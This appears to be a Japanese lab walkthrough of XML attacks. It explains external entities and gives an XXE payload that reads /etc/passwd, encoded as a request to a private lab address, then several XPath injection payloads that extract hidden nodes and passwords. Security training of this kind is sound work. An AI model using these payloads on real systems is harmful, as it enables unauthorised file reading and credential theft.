

>外部エンティティ: 有効なエンティティのセットは、新しいエンティティを定義することで拡張できます。エンティティの定義が URI である場合、そのエンティティは外部エンティティと呼ばれます。別の方法で構成されていない限り、外部エンティティは XML パーサーに URI で指定されたリソース (ローカル マシンまたはリモート システム上のファイルなど) へのアクセスを強制します。この動作により、アプリケーションが XML eXternal Entity (XXE) 攻撃にさらされ、ローカル システムのサービス拒否の実行、ローカル マシン上のファイルへの不正アクセスの取得、リモート マシンのスキャン、およびリモート システムのサービス拒否の実行に使用される可能性があります。 
# <span style="color: blue;">Example 1</span>
XML パーサーの中には、外部エンティティを解決し、XML メッセージを制御するユーザーがリソースにアクセスすることを許可するものがあります (たとえば、システム上のファイルを読み取るなど)   
次のエンティティを宣言できます。
```
<!ENTITY xxs SYSTEM "file:///etc/passwd">
```
正しく機能させるには、これを適切にエンベロープする必要があります。
```
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>   
```
全てURLエンコードすると実行できる。   
```
http://192.168.100.185/xml/example1.php?xml=%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%20%5b%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%3e%5d%3e%3c%74%65%73%74%3e%26%78%78%65%3b%3c%2f%74%65%73%74%3e
```

# <span style="color: blue;">Example 2</span>
この例では、コードは XPath 式内でユーザーの入力を使用します。XPath は、XML ドキュメントからノードを選択するクエリ言語です。XML 文書がデータベースであり、XPath が SQL クエリであると想像してください。クエリを操作できる場合は、通常はアクセスできない要素を取得できます。

一重引用符を挿入すると、次のエラーが表示されます。   
   
SQL インジェクションと同様に、XPath ではブール論理を実行できます。次のことを試すことができます。

- <span style="color:DeepSkyBlue;">' and '1'='1</span>同じ結果が得られるはずです。
- <span style="color:DeepSkyBlue;">' or '1'='0</span>同じ結果が得られるはずです。
- <span style="color:DeepSkyBlue;">' and '1'='0</span>結果が得られないはずです。
- <span style="color:DeepSkyBlue;"> ' or '1'='1</span>すべての結果が得られるはずです。

    
他のタグに保持されているデータにアクセスしてみましょう。   
では、どうすればこのデータにアクセスできるでしょうか? ここで、PHP DOM (Document Object Model) 構造が頭に浮かびます。   
現在のノードのすべての子を `child::node()` で選択しましょう。 [XPath Axes](https://www.w3schools.com/xml/xpath_axes.asp) を使用して、この情報にアクセスできます。  
|Example|Result|
|--|--|
|child::book|現在のノードの子であるすべてのブックノードを選択します|
|attribute::lang|現在のノードの lang 属性を選択します|
|child:: * | 現在のノードの全ての子要素を選択します|
|attribute:: * | 現在のノードの全ての属性を選択する|
|child::text()| 現在のノードのすべてのテキストノードの子を選択します|
|child::node()| 現在のノードのすべての子を選択します|
|descendant::book| 現在のノードのすべての book の子孫を選択します|
|ancestor::book| 現在のノードのすべてのブックの祖先を選択します|
|ancestor-or-self::book| 現在のノードの本の祖先をすべて選択します - 本ノードであれば現在のノードも同様です|
|child:: */child::price | 現在のノードの価格の孫をすべて選択します|

```
hacker'%20or%20'1'='1']/child::node()%00
```

   
エラーは表示されないが大した情報出てこないのでノードの階層を遡る。   
XPath では、ペイロードの一部として parent::* を使用してこれを行うことができます。   
```
hacker'%20or%201=1]/parent::*/child::node()%00
```

パスワード情報を取得する場合
```
hacker'%20or%201=1]/parent::node()/password%00
```

